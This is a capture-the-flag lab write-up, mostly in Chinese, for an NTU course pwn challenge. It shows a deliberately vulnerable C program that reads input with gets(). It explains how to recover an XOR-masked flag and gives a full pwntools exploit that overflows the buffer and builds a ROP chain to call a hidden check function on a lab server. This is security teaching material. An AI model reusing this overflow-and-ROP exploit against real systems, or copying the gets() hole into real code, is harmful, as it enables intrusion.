 ```yaml
---
title: Simple PWN 0x33(2023 Lab - ROP_RW)
tags: [eductf, CTF, PWN]

category: "Security/Course/NTU CS/PWN"
---
```


# Simple PWN 0x33(2023 Lab - ROP_RW)
<!-- more -->

## Background
ROP chain

## Source code
:::spoiler Source Code
```cpp
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <fcntl.h>

char flag[0x10];
long secret;
char empty_buf[0x30];

void check(char *input)
{
	char pass[0x10];
	char output[0x10];
	for (int i = 0; i < 2; ++i)
	{
		((long *)pass)[i] = ((long *)input)[i] ^ secret;
	}
	if (strcmp(pass, "kyoumokawaii") == 0)
	{
		for (int i = 0; i < 2; ++i)
			((long *)output)[i] = ((long *)flag)[i] ^ ((long *)pass)[i];
	}
	printf("flag = %s\n", output);
}

int main(void)
{
	setvbuf(stdin, 0, _IONBF, 0);
	setvbuf(stdout, 0, _IONBF, 0);
	int fd = 0;
	char buf[0x10];
	fd = open("/home/chal/flag.txt", O_RDONLY);
	read(fd, flag, 0x10);
	close(fd);

	fd = open("/dev/urandom", O_RDONLY);
	read(fd, &secret, sizeof(secret));
	for (int i = 0; i < 2; ++i)
		((long *)flag)[i] = ((long *)flag)[i] ^ secret;

	printf("secret = %lx\n", secret);
	printf("> ");
	gets(buf);

	return 0;
}

```
:::

## Recon
先看這個程式的行為，在main當中，他會打開flag.txt和urandom這兩個file，然後做兩者的XOR，並且回傳urandom的內容給我們，並且有BOF的漏洞存在
:::info
flag和secret這兩個變數都是global variable
:::
而check這個function的功能是我們可以輸入一個input，他會和secret做XOR，若結果等於==kyoumokawaii==就把前面加密過的flag再跟`kyoumokawaii`做XOR並回傳給我們

思路很簡單:
雖然整隻程式都沒有呼叫到check function，但如果我們拿到secret，又可以進到check，是否可以做一些操作拿到flag
一開始一定會做的事情是把flag加密
$$
cipher= flag \oplus secret\\
$$
如果可以進到check function
$$
input\leftarrow kyoumokawaii\oplus secret
$$
$$
output\leftarrow cipher\oplus kyoumokawaii=flag\oplus secret\oplus kyoumokawaii
$$
$$
flag = output\oplus secret\oplus kyoumokawaii
$$
此時`output`, `secret`都已知，我們反推出flag為何，但重點是要怎麼呼叫到check function?==ROP chain + BOF==

1. 先利用該隻binary的gadget蓋成我們需要的chain，並且隨便找一個區間是不太會寫入的bss section address
    ```
    check_fn_addr = 0x4017ba
    bss_section = 0x4c7f00
    pop_rdx_rbx_ret = 0x0000000000485e8b
    mov_qword_ptr_rdi_rdx_ret = 0x00000000004337e3
    pop_rdi_ret = 0x00000000004020af
    ...
    rop_chain = flat(
    pop_rdi_ret,        bss_section,
    pop_rdx_rbx_ret,    input_1,        0,
    mov_qword_ptr_rdi_rdx_ret,
    pop_rdi_ret,        bss_section + 0x8,
    pop_rdx_rbx_ret,    input_2,        0,
    mov_qword_ptr_rdi_rdx_ret,
    pop_rdi_ret,        bss_section,
    check_fn_addr
    )
    ```
2. 等到跳到check function後就可以開始接return output，並按照上面的公式回推flag

## Exploit - ROP + BOF
```python
from pwn import *
from Crypto.Util.number import bytes_to_long, long_to_bytes

# r = process('./chal')
r = remote('10.113.184.121', 10051)
context.arch = 'amd64'

r.recvuntil(b'secret = ')
secret = int(r.recvline().strip().decode(), 16)
log.info(f'secret = {hex(secret)}')

check_fn_addr = 0x4017ba
bss_section = 0x4c7f00
pop_rdx_rbx_ret = 0x0000000000485e8b
mov_qword_ptr_rdi_rdx_ret = 0x00000000004337e3
pop_rdi_ret = 0x00000000004020af

input_1 = u64(b'kyoumoka') ^ secret
input_2 = u64(b'waii\x00\x00\x00\x00') ^ secret
log.info(f'input_1 = {hex(input_1)}, input_2 = {hex(input_2)}')

rop_chain = flat(
    pop_rdi_ret,        bss_section,
    pop_rdx_rbx_ret,    input_1,        0,
    mov_qword_ptr_rdi_rdx_ret,
    pop_rdi_ret,        bss_section + 0x8,
    pop_rdx_rbx_ret,    input_2,        0,
    mov_qword_ptr_rdi_rdx_ret,
    pop_rdi_ret,        bss_section,
    check_fn_addr
)
# raw_input()
r.sendlineafter(b'> ', b'a' * 40 + rop_chain)
r.recvuntil(b'flag = ')
output = r.recvline().strip()
log.info(f'output = {output}')
log.info(f'Part 1 = {hex(u64(output[0:8]))}, Part 2 = {hex(u64(output[8:16]))}')
flag_1 = p64(u64(output[0:8]) ^ input_1)
flag_2 = p64(u64(output[8:16]) ^ input_2)
log.info(f'flag = {(flag_1 + flag_2).strip().decode()}')

r.interactive()
```